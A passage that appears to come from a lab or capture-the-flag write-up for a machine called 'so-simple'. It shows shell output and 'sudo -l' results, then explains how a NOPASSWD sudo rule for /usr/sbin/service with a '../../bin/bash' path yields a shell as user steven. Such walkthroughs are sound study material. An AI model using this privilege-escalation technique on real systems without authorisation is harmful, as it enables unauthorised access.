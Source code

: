   Usage of /:   53.8% of 8.79GB   Users logged in:          0

  Memory usage: 22%               IPv4 address for docker0: 172.17.0.1

  Swap usage:   0%                IPv4 address for ens160:  192.168.236.78

  

  

47 updates can be installed immediately.

0 of these updates are security updates.

To see these additional updates run: apt list --upgradable

  

  

The list of available updates is more than a week old.

To check for new updates run: sudo apt update

  

max@so-simple:~$    

Ok I'm in now.

  

max@so-simple:/$ cd root/

-bash: cd: root/: Permission denied

Ok so privesc still needed. Checking sudo privileges

  

max@so-simple:/$ sudo -l

Matching Defaults entries for max on so-simple:

    env_reset, mail_badpass,

    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  

User max may run the following commands on so-simple:

    (steven) NOPASSWD: /usr/sbin/service

-     sudo: This is a program for Unix-like computer operating systems that allows users to run programs with the security privileges of another user, by default, the superuser. It is a useful command when you need to run a command with elevated permissions.
    
-     -u steven: This tells sudo to execute the command as user steven.
    
-     /usr/sbin/service: This is a script in Unix-like systems that runs a System V init script in as predictable an environment as possible, removing most environment variables and with the current working directory set to /.
    
-     ../../bin/bash: This is a relative path that seems to be trying to navigate to the bash shell. This is a bit strange because the service command is used to run System V init scripts and is not typically used in conjunction with a command shell like bash.
    
